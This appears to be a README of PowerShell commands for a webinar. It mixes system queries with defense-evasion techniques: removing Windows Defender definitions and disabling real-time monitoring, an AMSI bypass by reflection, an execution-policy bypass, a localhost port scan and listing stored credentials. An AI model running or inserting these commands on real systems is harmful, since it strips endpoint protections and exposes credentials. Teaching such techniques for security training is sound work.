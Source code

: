 # PowerShell Commands for Webinar
## 1. Disable Windows Defender Realtime Monitoring
This command disables Windows Defender's real-time monitoring.
![Screenshot of disabling Windows Defender](./images/screenshot1.png)
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
---
## 2. Get Detailed OS Information
This command retrieves all properties of the operating system.
![Screenshot of Get-WmiObject command](./images/screenshot2.png)
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```
---
## 3. Network Interface Information
This command retrieves network interface configuration, including IPv4 and IPv6 addresses.
![Screenshot of Network Interface Info](./images/screenshot3.png)
```powershell
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer
```
---
## 4. List Processes by CPU Usage
This command retrieves running processes and sorts them by CPU usage in descending order.
![Screenshot of Get-Process command](./images/screenshot4.png)
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
---
## 5. Port Scanning (1-1024)
This command performs a basic port scan on localhost for ports 1 to 1024.
![Screenshot of Port Scanning](./images/screenshot5.png)
```powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async = $sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false); if($sock.Connected) { $_ }; $sock.Close() }
```
---
## 6. Disable AMSI (Antimalware Scan Interface)
This command disables AMSI by manipulating internal PowerShell structures.
![First Screenshot for AMSI Disable](./images/screenshot6_1.png)
![Second Screenshot for AMSI Disable](./images/screenshot6_2.png)
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
---
## 7. Bypass Execution Policy Temporarily
This command temporarily bypasses the execution policy for running scripts and then reverts it.
```powershell
$policy = Get-ExecutionPolicy; Set-ExecutionPolicy -ExecutionPolicyBypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. List Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey/list
```
